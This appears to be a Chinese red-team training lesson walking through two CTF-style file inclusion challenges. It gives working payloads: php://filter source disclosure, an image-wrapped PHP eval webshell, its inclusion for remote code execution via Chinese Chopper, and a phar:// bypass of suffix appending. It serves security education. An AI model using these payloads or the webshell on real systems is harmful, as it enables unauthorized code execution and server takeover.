# 护网行动红蓝攻防教程：P31：web安全-7.文件包含漏洞 📁







在本节课中，我们将通过两道实战题目，深入学习文件包含漏洞的利用方法。我们将从信息收集开始，逐步分析漏洞点，并利用伪协议、文件上传绕过等技术获取目标系统的权限。课程内容注重实战思路的引导，旨在帮助初学者理解并掌握文件包含漏洞的核心利用链。





---





## 第一题实战解析 🎯

上一节我们介绍了文件包含漏洞的基本概念，本节中我们来看看如何在实际题目中应用这些知识。



首先，我们访问目标网站，在首页的源代码中发现了一个提示，指向 `include.php` 文件。

```
http://target.com/index.php
```



通过查看 `index.php` 的源代码，我们找到了关键信息。



```html
<!-- 提示：试试 include.php?file= -->
```





根据提示，我们尝试访问 `include.php` 文件，并发现其接受一个 `file` 参数。





```
http://target.com/include.php?file=include.php
```





访问后发现页面内容与 `include.php` 自身相同，这证实了本地文件包含漏洞的存在。我们再次查看该页面的源代码，发现了新的线索。

```html
<!-- 提示：还有一个 upload.php 哦 -->
```

### 信息收集与源码审计

以下是分析 `upload.php` 文件的关键步骤：

我们尝试直接访问 `upload.php`，发现是一个文件上传界面。为了了解其后台过滤逻辑，我们需要查看其源代码。由于存在文件包含漏洞，我们可以利用 `php://filter` 伪协议来读取 `upload.php` 的源码。

```
http://target.com/include.php?file=php://filter/convert.base64-encode/resource=upload.php
```

访问上述URL后，会得到一串Base64编码的字符串。将其解码后，即可获得 `upload.php` 的源代码。分析源码，我们发现其过滤规则如下：

1.  只允许上传后缀为 `.gif`, `.jpg`, `.jpeg`, `.png` 的文件。
2.  检查 HTTP 头中的 `Content-Type` 是否为 `image/*`。
3.  检查文件大小。





### 制作并上传木马文件

由于直接上传 `.php` 文件会被拦截，我们需要制作一个图片木马（图片马）来绕过检测。

在Windows系统中，可以使用以下命令将PHP代码追加到一张正常图片的末尾：

```cmd
copy normal.jpg /b + shell.php /a shell.jpg
```

其中 `shell.php` 的内容可以是一句话木马：

```php
<?php @eval($_POST[‘cmd’]); ?>
```

制作好图片马 `shell.jpg` 后，我们通过 `upload.php` 页面上传该文件。上传成功后，文件通常会保存在 `upload/` 目录下。

### 利用文件包含执行木马



现在，我们利用之前的文件包含漏洞，去包含我们上传的图片马文件。





```
http://target.com/include.php?file=upload/shell.jpg
```



包含成功后，图片马中的PHP代码会被服务器执行。此时，我们就可以使用中国菜刀等连接工具，连接这个URL，并提交密码 `cmd` 来执行任意系统命令，从而获得WebShell。

**核心思路总结**：发现文件包含漏洞 -> 利用伪协议读取上传页面源码 -> 分析过滤规则 -> 制作图片马上传 -> 通过文件包含执行图片马中的代码。

---

## 第二题实战解析 🧩

在完成第一题后，我们来看一个增加了防御措施的第二题。本题的核心在于绕过后缀名限制和目录跳转过滤。

首先访问第二题目标，同样尝试读取 `include.php` 的源码。

```
http://target.com/level2/include.php?file=php://filter/convert.base64-encode/resource=include.php
```

解码后发现，源码中过滤了 `../` 等目录跳转符，阻止了我们跨目录读取文件。同时，我们注意到URL中的一个细节：

```
http://target.com/level2/include.php?file=hello
```



页面提示“这是一个php文件”。观察发现，参数 `file=hello` 没有后缀，但页面能正常显示。这暗示后台可能会自动为参数值拼接 `.php` 后缀。我们尝试读取自身验证：



```
http://target.com/level2/include.php?file=php://filter/convert.base64-encode/resource=include
```

（注意去掉了 `.php`）成功读取到了源码，证实了我们的猜测：**后台代码逻辑是 `include($_GET[‘file’] . ‘.php’);`**。



### 分析上传功能与限制



在第二题的 `include.php` 源码中，同样发现了 `upload.php`。用同样的方法读取其源码，发现过滤规则与第一题相同。但是，如果我们沿用第一题的方法：

1.  上传图片马 `shell.jpg` 到 `upload/` 目录。
2.  尝试包含 `http://target.com/level2/include.php?file=upload/shell`

由于后台会自动添加 `.php` 后缀，最终会尝试包含 `upload/shell.php`，而这个文件并不存在，导致利用失败。

### 利用PHAR协议绕过限制

我们需要一种方法，让包含的文件即使加了 `.php` 后缀，依然能执行其中的PHP代码。这里我们使用 `phar://` 伪协议。

**PHAR利用原理**：PHAR是PHP的归档文件，即使其后缀被改为 `.jpg`，通过 `phar://` 协议解析时，依然能访问并执行其归档内的PHP文件。

以下是具体步骤：

1.  **创建木马文件**：创建一个 `shell.php`，内容为 `<?php phpinfo(); ?>` 或一句话木马。
2.  **打包为PHAR**：使用PHP代码或工具将该文件打包成 `shell.phar`。
3.  **修改后缀**：将 `shell.phar` 重命名为 `shell.jpg`。
4.  **上传文件**：通过 `upload.php` 上传 `shell.jpg`。
5.  **利用包含**：通过文件包含漏洞，使用 `phar://` 协议来指向这个上传的“图片”。



```
http://target.com/level2/include.php?file=phar://upload/shell.jpg/shell
```

即使后台拼接为 `phar://upload/shell.jpg/shell.php`，`phar://` 协议也会正确解析 `shell.jpg` 压缩包中的 `shell`（或 `shell.php`）文件并执行其中的代码。

**核心思路总结**：发现后台自动加后缀 -> 传统图片马包含失效 -> 利用 `phar://` 协议封装PHP文件 -> 上传伪装后的PHAR包 -> 通过包含PHAR包执行内部PHP代码。



---



## 课程总结 📝

本节课中我们一起学习了两道文件包含漏洞的实战题目。

*   **第一题** 我们掌握了基础流程：信息收集（找提示、看源码） -> 利用 `php://filter` 读取源码 -> 分析过滤规则 -> 制作图片马上传 -> 通过文件包含漏洞直接执行图片马，获得WebShell。
*   **第二题** 我们遇到了进阶防御：后缀名拼接和目录跳转过滤。我们学习了如何利用 `phar://` 协议的特性，将PHP木马打包并伪装成图片上传，从而绕过后缀名限制，成功执行代码。



两道题的核心都是**灵活运用伪协议**（`php://filter`, `phar://`）和**对代码逻辑的准确推断**。希望同学们通过本次实战，能更深刻地理解文件包含漏洞的挖掘与利用方式，并将其运用到更复杂的场景中。